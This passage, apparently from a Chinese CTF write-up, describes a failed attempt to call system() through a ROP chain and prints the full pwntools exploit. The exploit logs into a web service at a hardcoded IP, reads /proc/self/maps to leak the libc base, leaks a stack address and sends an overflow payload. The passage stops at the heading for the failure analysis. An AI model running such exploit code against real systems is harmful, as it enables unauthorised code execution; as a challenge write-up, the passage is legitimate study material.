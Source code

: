### system 失败

但是我首先泄露栈地址，然后用system函数执行，怎么也无法成功，我认为应该毫无问题，卡在这整整两天，payload如下：

```python
payload = "sleep 5\x00".ljust(0x88)
payload += p64(pop_rdi) + p64(stack) + p64(libc.symbols['system'])
```

完整exp如下，发现马上返回，没有成功sleep

```python
from pwn import *
import requests,re

url  = "http://134.175.185.244"
libc = ELF("./libc.so")
session = requests.Session()

def login():
    paramsPost = {"password":"goodlucktoyou","submit":"submit","username":"admin"}
    session.post(url+"/index.php", data=paramsPost)

def send(payload):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    return re.findall('\<\/form\>(.*?)\<br\>',response.content)[0]

def read(payload):
    paramsPost = {"submit":"submit","search":payload}
    response = session.post(url+"/select.php", data=paramsPost)
    return response.content[1517+len(payload):-1]

login()

# leak libc and stack
libc.address = int('0x'+re.findall('(.*?)libc-2.28',read("/proc/self/maps"))[0][:12],16)
stack = u64(send('a'*0x64)[0x64:].ljust(8, b'\0'))

log.warn("stack: "+str(hex(stack)))
log.warn("libc: "+str(hex(libc.address)))

# gadget
pop_rdi  = libc.address + 0x023a5f

payload = "sleep 5\x00".ljust(0x88)
payload += p64(pop_rdi) + p64(stack) + p64(libc.symbols['system'])
send(payload)
```

### 失败原因

> 这个小结就是批评与自我批评，古人叫吾日三省吾身，西方叫忏悔。
